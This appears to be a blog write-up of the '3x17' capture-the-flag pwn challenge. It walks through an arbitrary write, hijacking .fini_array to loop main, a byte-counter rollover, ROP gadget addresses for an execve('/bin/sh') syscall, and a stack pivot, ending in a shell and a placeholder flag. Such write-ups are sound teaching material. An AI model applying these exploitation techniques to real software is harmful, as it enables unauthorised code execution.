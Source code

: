```yaml
---
title: "3x17"
date: 2023-01-27T19:46:10-08:00
draft: false
---
```


This challenge was relatively difficult for me and introduced a few new concepts to me. Overall a pretty good challenge I would say.

I started out by looking at the binary information to see what's going on. Calling `pwn checksec ./3x17` shows this:

```bash
 Arch:     amd64-64-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX enabled
 PIE:      No PIE (0x400000)
```

Nice! No PIE and no canary. That makes it easier. Wait a second...`file ./3x17`

```bash
./3x17: ELF 64-bit LSB executable,
x86-64, version 1 (GNU/Linux),
statically linked,
for GNU/Linux 3.2.0,
BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3,
stripped
```

We're working with a stripped binary. This is gonna make it a little tough to work with. I decided to look through ghidra to figure out what was going on a little better. Taking a look at `entry` I can see that there is a function that looks a lot like `__libc_start_main` being called:

```c
FUN_00401eb0(main,in_stack_00000000,&stack0x00000008,FUN_004028d0,FUN_00402960,param_3,auStack8)
```

The main there was added after the fact. I know that in a call to `__libc_start_main` the first argument is always a pointer to the main function. So I decided to take a look at that function to see what it did. The next example shows the function with all the function names that I filled out as I was testing the program. But essentially the main function looked like this:

```c
int main(){
  DAT_004b9330 = DAT_004b9330 + '\x01';
  cVar1 = DAT_004b9330;
  if (DAT_004b9330 == '\x01') {
    write(1,"addr:",5);
    read(0,local_28,0x18);
    addr = atoi(local_28);
    write(1,"data:",5);
    read(0,(long)addr,0x18);
    cVar1 = '\0';
  }
  }
```

This entire function is very useful to know. Essentially what it's doing is reading a value that the user is able to enter then converting that value to a number. Then it will use that value as the destination of the next user input. Essentially an arbitrary write to any writeable memory. Looking at the section headers we can see what's writeable.

```asm
Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .note.ABI-tag     NOTE             0000000000400200  00000200
       0000000000000020  0000000000000000   A       0     0     4
  [ 2] .note.gnu.build-i NOTE             0000000000400220  00000220
       0000000000000024  0000000000000000   A       0     0     4
  [ 3] .rela.plt         RELA             0000000000400248  00000248
       0000000000000228  0000000000000018  AI       0    19     8
  [ 4] .init             PROGBITS         0000000000401000  00001000
       0000000000000017  0000000000000000  AX       0     0     4
  [ 5] .plt              PROGBITS         0000000000401018  00001018
       00000000000000b8  0000000000000000  AX       0     0     8
  [ 6] .text             PROGBITS         00000000004010d0  000010d0
       000000000008b360  0000000000000000  AX       0     0     16
  [ 7] __libc_freeres_fn PROGBITS         000000000048c430  0008c430
       0000000000001efa  0000000000000000  AX       0     0     16
  [ 8] .fini             PROGBITS         000000000048e32c  0008e32c
       0000000000000009  0000000000000000  AX       0     0     4
  [ 9] .rodata           PROGBITS         000000000048f000  0008f000
       000000000001937c  0000000000000000   A       0     0     32
  [10] .stapsdt.base     PROGBITS         00000000004a837c  000a837c
       0000000000000001  0000000000000000   A       0     0     1
  [11] .eh_frame         PROGBITS         00000000004a8380  000a8380
       000000000000a608  0000000000000000   A       0     0     8
  [12] .gcc_except_table PROGBITS         00000000004b2988  000b2988
       00000000000000a9  0000000000000000   A       0     0     1
  [13] .tdata            PROGBITS         00000000004b40c0  000b30c0
       0000000000000020  0000000000000000 WAT       0     0     8
  [14] .tbss             NOBITS           00000000004b40e0  000b30e0
       0000000000000040  0000000000000000 WAT       0     0     8
  [15] .init_array       INIT_ARRAY       00000000004b40e0  000b30e0
       0000000000000010  0000000000000008  WA       0     0     8
  [16] .fini_array       FINI_ARRAY       00000000004b40f0  000b30f0
       0000000000000010  0000000000000008  WA       0     0     8
  [17] .data.rel.ro      PROGBITS         00000000004b4100  000b3100
       0000000000002df4  0000000000000000  WA       0     0     32
  [18] .got              PROGBITS         00000000004b6ef8  000b5ef8
       00000000000000f0  0000000000000000  WA       0     0     8
  [19] .got.plt          PROGBITS         00000000004b7000  000b6000
       00000000000000d0  0000000000000008  WA       0     0     8
  [20] .data             PROGBITS         00000000004b70e0  000b60e0
       0000000000001af0  0000000000000000  WA       0     0     32
  [21] __libc_subfreeres PROGBITS         00000000004b8bd0  000b7bd0
       0000000000000048  0000000000000000  WA       0     0     8
  [22] __libc_IO_vtables PROGBITS         00000000004b8c20  000b7c20
       00000000000006a8  0000000000000000  WA       0     0     32
  [23] __libc_atexit     PROGBITS         00000000004b92c8  000b82c8
       0000000000000008  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           00000000004b92e0  000b82d0
       0000000000001718  0000000000000000  WA       0     0     32
  [25] __libc_freeres_pt NOBITS           00000000004ba9f8  000b82d0
       0000000000000028  0000000000000000  WA       0     0     8
  [26] .comment          PROGBITS         0000000000000000  000b82d0
       0000000000000023  0000000000000001  MS       0     0     1
  [27] .note.stapsdt     NOTE             0000000000000000  000b82f4
       00000000000010c0  0000000000000000           0     0     4
  [28] .shstrtab         STRTAB           0000000000000000  000b93b4
       0000000000000134  0000000000000000           0     0     1
```

Looks like anything past the `.tdata` array is writeable. I thought about using the GOT, but the program doesn't call any other functions after getting the user input. Originally I was under the impression that the program stops immediately after the main function. What I learned is that libc has something called the `.init_array` and `.fini_array`. These are the arrays that hold the constuctors and destructors of the program. Since the constuctors have already been called so I can't do anything there. The destructors are called at the end of the program though so I know those haven't been called yet at the time of user input. I can see that that location is writable, I just need to know how `.fini_array` works. Looking at [This](https://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html) I can see that the `.fini_array` holds the pointers to two desctructor functions. I can see where they get called by looking at the functions in ghidra. The when I do that, I can check out the calling function from the calling tree. This is what that function looks like:

```c
void FUN_00402960(void)

{
  long lVar1;

  lVar1 = 1;
  do {
    (*(code *)(&PTR_FUN_004b40f0)[lVar1])();
    lVar1 = lVar1 + -1;
  } while (lVar1 != -1);
  return;
}
```

Essentially what this is doing is taking the array at `PTR_FUN_004b40f0` and calling the pointer at `index 1`. Once the program comes back to this spot, the fucntion at `index 0` gets called which is the function that actually exits the program. If we are going to exploit this we can replace that `index 1` pointer with the address of main. With this, the `.fini_array` will go from this:

```
<fini_array_addr> : <second_called_ptr> <first_called_ptr>
```

to this:

```
<fini_array_addr> : <second_called_ptr> <main_func>
```

So there's one problem with this. If we recall our main function, there's a value that increases every time it gets called. If we call main again, the value gets incremented again and we don't get another read. Luckily this value is a byte type. This will be useful in the future. When the main function returns from it's failure to read again, it will come back to the `FUN_00402960` function except now it will call the function at `index 0`. All I had to do was replace that other function pointer with the beginning of the `FUN_00402960` function. Which would reset the counter and call the main function again. So it looks like this instead:

```
<fini_array_addr> : <FUN_00402960> <main_func>
```

This allows for an infinite loop of the main function. This is useless to us for now since that incremented byte variable prevents us from being able to write more, but luckily it's a byte. After 256 loops, it will roll over back to 0 again and we can write some more to some location in memory. This is where we can start to build a ROP chain. I got some ROP gadgets that will just get the registers prepped for an execve syscall:

```
pop RAX; RET = 0x41e4af
> 0x3b
pop RDI; RET = 0x48c429
> '/bin/sh\x00'
pop RSI; RET = 0x48a79a
> 0x0
pop RDX; RET = 0x44a2e6
> 0x0
syscall = 0x486e0f
```

Now I need to find where to put it and we're set. This is hard though because we dont really have control of the stack. This is where I learned about stack pivots. If you call `leave; ret` at certain places in the program, it will pivot the stack to an address on the stack which is really useful in the case of this challenge. If we try to put this in the second fini_array address, then we have a problem. It doesn't have a nice address on the stack, so it will just break the program execution. If we instead put in in the first index in the array, the stack has a nice address on it: `0x4b4100`. Now all we have to do is write the rop chain to this spot and then replace the mentioned location with  `leave; ret`. Now we have our finished exploit and it will stack pivot in order to put our saved ROP chain on the stack and run it! There we go:

```
[*] Switching to interactive mode
$ cd /home/3x17
$ ls
3x17
run.sh
the_4ns_is_51_fl4g
$ cat the_4ns_is_51_fl4g
flag{<not_the_real_flag>}
```
